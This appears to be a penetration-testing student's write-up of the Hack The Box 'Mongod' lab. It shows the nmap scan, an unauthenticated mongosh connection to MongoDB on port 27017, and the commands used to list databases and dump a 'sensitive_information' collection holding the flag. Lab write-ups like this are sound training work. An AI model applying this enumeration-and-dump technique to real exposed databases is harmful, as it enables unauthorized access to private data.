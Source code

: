 ## Box: [Mongod] — Started: 2025-10-05 23:10

**IP/Host:** `HTB Attackbox`  |  **Status:** `Owned: 25-10-05`

### TL;DR

After installing an old version of mongosh due to an error, Initial was: `./mongosh "10.129.205.118:27017"`.

Flag Cap command, from within a `mongosh` shell: `sensitive_information> db.flag.find()`.

*Cumulative Impact Overview*:
- `mongodb` lab

### Exploit Lifecycle

1. *Validation & Recon*: HTB CTF
2. *Enumeration & Scanning*:
    - `nmap -sV IPADDR` - found mongodb on port 27017
3. *Findings & Exploits*:
    - my version of mongosh was too new to connect to the machine, so I needed to install an older version of mongosh:

```bash
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.20]─[htb-mp-954215@htb-eldyftujfu]─[~]
└──╼ [★]$ mongosh "mongodb://10.129.205.118:27017"
Current Mongosh Log ID:	68e335863682f53f98544ca6
Connecting to:		mongodb://10.129.205.118:27017/?directConnection=true&appName=mongosh+2.3.8
MongoServerSelectionError: Server at 10.129.205.118:27017 reports maximum wire version 6, but this version of the Node.js Driver requires at least 7 (MongoDB 4.0)
```

4. *PrivEsc*:
    - `show dbs` - show the databases
    - `use sensitive_information` - enter the `sensitive_information` db
    - `show collections` - show the collections within the `sensitive_information` db
        - At that point I was here:
    - ```
        sensitive_information> show collections
        flag
        ```
5. *Post-Exploitation*:
    - Took some digging through `mongodb`'s docs, particularly their mongosh section to find the command to show content of the docs within the collection `flag`
```bash
sensitive_information> db.flag.find()
[
  {
    _id: ObjectId('630e3dbcb82540ebbd1748c5'),
    flag: '[REDACTED]'
  }
]
sensitive_information> 
```

*Proof — path to flags/screenshot of boxpwn*:

![[2_Studies/Courses/Current/CERTPREP - PJPT-Practical Jr Pen Tester/VulnBoxes/Hack The Box/Starting Point/z_attachments/Pasted image 20251005235422.png]]



### Commands Learned or Commands Used
```bash
test> show dbs    # show all dbs
test> use databaseName    # enter the database named databaseName
sensitive_information> show collections    # show all collections within active db
sensitive_information> db.collectionName.find() # dump contents of docs within collection named collectionName
```
